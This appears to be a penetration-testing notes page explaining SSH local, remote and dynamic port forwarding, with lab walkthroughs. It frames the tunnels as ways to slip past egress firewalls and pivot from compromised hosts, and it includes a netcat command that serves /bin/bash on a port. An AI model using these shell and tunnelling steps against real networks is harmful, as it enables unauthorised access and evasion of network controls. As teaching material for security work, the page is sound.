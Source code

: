 ```yaml
---
description: Exploring SSH tunneling
---
```


# SSH Tunnelling / Port Forwarding

## SSH: Local Port Forwarding

If you are on the network that restricts you from establishing certain connections to the outside world, local port forwarding allows you to bypass this limitation. \
\
For example, if you have a host that you want to access, but the egress firewall won't allow it, do this:

```csharp
ssh -L 127.0.0.1:9999:REMOTE_HOST:PORT user@SSH_SERVER
```

You can now sent traffic to 127.0.0.1:9999 on your localhost and that traffic will flow through the SSH\_SERVER to REMOTE\_HOST:PORT.&#x20;

Let's see with a real example.

#### On machine 10.0.0.5

```csharp
ssh -L9999:10.0.0.12:4444 root@10.0.0.12 -N -f
```

The above says: bind on a local port 9999 (on a host 10.0.0.5). Listen for any traffic coming to that port 9999 (i.e 127.0.0.1:9999 or 10.0.0.5:9999) and forward it all that to the port 4444 on host 10.0.0.12:

We can see that the 127.0.0.1:9999 is now indeed listening:

![](../../.gitbook/assets/ssh-local-bind.png)

#### On machine 10.0.0.12

Machine 10.0.0.12 is listening on port 4444 - it is ready to give a reverse shell to whoever joins:

![](../../.gitbook/assets/ssh-local-port-1.png)

#### On machine 10.0.0.5

Since the machine is listening on 127.0.0.1:9999, let's netcat it - this should give us a reverse shell from 10.0.0.12:4444:

![](../../.gitbook/assets/ssh-local-port-2.png)

The above indeed shows that we got a reverse shell from 10.0.0.12 and the local tunnel worked.

## SSH: Remote Port Forwarding

Remote port forwarding helps in situations when you have compromised a box that has a service running on a port bound to 127.0.0.1, but you want to access that service from outside. In other words, remote port forwarding exposes an obscured port (bound to localhost) so that it can be reached from outside through the SSH tunnel.

Pseudo syntax for creating remote port forwarding with ssh tunnels is:

```csharp
ssh -R 5555:LOCAL_HOST:4444 user@SSH_SERVER
```

The above suggests that any traffic sent to port 5555 on SSHSERVER will be forwarded to the port 4444 on the LOCALHOST - the host that runs the service that is only accessible from inside that host. In other words, service on port 4444 on LOCALHOST will now be exposed through the SSHSERVER's port 5555.

Let's see an example.

#### On machine 10.0.0.12

Let's create a reverse shell listener bound to 127.0.0.1 (not reachable to hosts from outside) on port 4444:

```csharp
nc -lp 4444 -s 127.0.0.1 -e /bin/bash & ss -lt
```

![](../../.gitbook/assets/ssh-remote-hidden.png)

Now, let's open a tunnel to 10.0.0.5 and create remote port forwarding by exposing the port 4444 for the host 10.0.0.5:

```csharp
ssh -R5555:localhost:4444 root@10.0.0.5 -fN
```

The above says: bind a port 5555 on 10.0.0.5 and make sure that any traffic sent to port 5555 on 10.0.0.5, gets forwarded to a service listening on localhost:4444 on to this box (10.0.0.12).

#### On machine 10.0.0.5

Indeed, we can see a port 5555 got opened up on 10.0.0.5 as part of the tunnel creation:

![](../../.gitbook/assets/ssh-remote-exposed.png)

Let's try sending some traffic to 127.0.0.1:5555 - this should give us a reverse shell from the 10.0.0.12:4444 - which it did:

![](../../.gitbook/assets/ssh-remote-shell.png)

## SSH: Dynamic Port Forwarding

Pseudo syntax for creating dynamic port forwarding:

```csharp
ssh -D 127.0.0.1:9090 user@SSH_SERVER
```

The above essentially means: bind port 9090 on localhost and any traffic that gets sent to this port, please relay it to the SSH\_SERVER - I trust it to make the connections for me.

For the demo, let's check what is our current IP before the dynamic port forwarding is set up:

![](../../.gitbook/assets/ssh-dynamic-port-forwarding-myip1.png)

Creating an ssh tunnel to 159.65.200.10 and binding port 9090 on the local machine 10.0.0.5:

```csharp
ssh -D9090 root@159.65.200.10
```

![](../../.gitbook/assets/ssh-dynamic-port-forwarding-create-tunel.png)

Checking network connections on the localhost 10.0.0.5, we can see that the port 9090 is now listening:

![](../../.gitbook/assets/ssh-dynamic-port-forwarding-port-listening.png)

This means that if we send any traffic to 127.0.0.1:9090, that traffic will be sent to the hosts on the other end of the ssh tunnel - 159.65.200.10 and then the host 159.65.200.10 will make connections to other hosts on behalf of the host 10.0.0.5. It will return any data it receives back to the originating host 10.0.0.5.

To test this, we can set our browser to use a socks5 proxy server 127.0.0.1:9090 like so:

![](../../.gitbook/assets/ssh-dynamic-port-forwarding-configure-browser.png)

If we check what our IP is again, it is obvious that we are now indeed masquerading the internet as 159.65.200.10:

![](../../.gitbook/assets/ssh-dynamic-port-forwarding-myip2.png)

{% hint style="info" %}
Dynamic port forwarding plays along nicely with ProxyChains.
{% endhint %}

## References

{% embed url="https://blog.trackets.com/2014/05/17/ssh-tunnel-local-and-remote-port-forwarding-explained-with-examples.html" %}

